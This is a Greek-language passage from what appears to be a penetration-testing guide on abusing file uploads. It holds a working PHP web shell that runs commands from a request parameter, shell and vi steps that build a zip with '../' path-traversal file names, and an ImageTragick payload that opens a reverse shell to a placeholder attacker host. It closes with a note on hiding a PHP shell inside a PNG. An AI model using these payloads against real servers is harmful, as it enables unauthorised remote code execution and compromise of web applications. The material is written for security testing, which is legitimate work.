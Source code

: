 ```python
create_zip()
```
**Κατάχρηση συμπίεσης για file spraying**

Για περισσότερες λεπτομέρειες **ελέγξτε την αρχική δημοσίευση στο**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **Δημιουργία PHP Shell**: Ο κώδικας PHP γράφεται για να εκτελεί εντολές που περνιούνται μέσω της μεταβλητής `$_REQUEST`.

```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
2.  **File Spraying και Δημιουργία Συμπιεσμένου Αρχείου**: Δημιουργούνται πολλαπλά αρχεία και συναρμολογείται ένα αρχείο zip που περιέχει αυτά τα αρχεία.

```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# zip cmd.zip xx*.php
```
3.  **Τροποποίηση με Hex Editor ή vi**: Τα ονόματα των αρχείων μέσα στο zip τροποποιούνται χρησιμοποιώντας το vi ή έναν hex editor, αλλάζοντας το "xxA" σε "../" για διάσχιση καταλόγων.

```bash
:set modifiable
:%s/xxA/..\//g
:x!
```

## ImageTragic

Μεταφορτώστε αυτό το περιεχόμενο με μια επέκταση εικόνας για να εκμεταλλευτείτε την ευπάθεια **(ImageMagick, 7.0.1-1)** (από το [exploit](https://www.exploit-db.com/exploits/39767))
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## Ενσωμάτωση PHP Shell σε PNG

Η ενσωμάτωση ενός PHP shell στο κομμάτι IDAT ενός αρχείου PNG μπορεί να παρακάμψει αποτελεσματικά ορισμένες λειτουργίες επεξεργασίας εικόνας. Οι συναρτήσεις `imagecopyresized` και `imagecopyresampled` από το PHP-GD είναι ιδιαίτερα σχετικές σε αυτό το πλαίσιο, καθώς χρησιμοποιούνται συχνά για τη μετατροπή μεγέθους και την επαναδειγματοληψία εικόνων, αντίστοιχα. Η ικανότητα του ενσωματωμένου PHP shell να παραμένει ανεπηρέαστο από αυτές τις λειτουργίες αποτελεί σημαντικό πλεονέκτημα για συγκεκριμένες περιπτώσεις χρήσης.

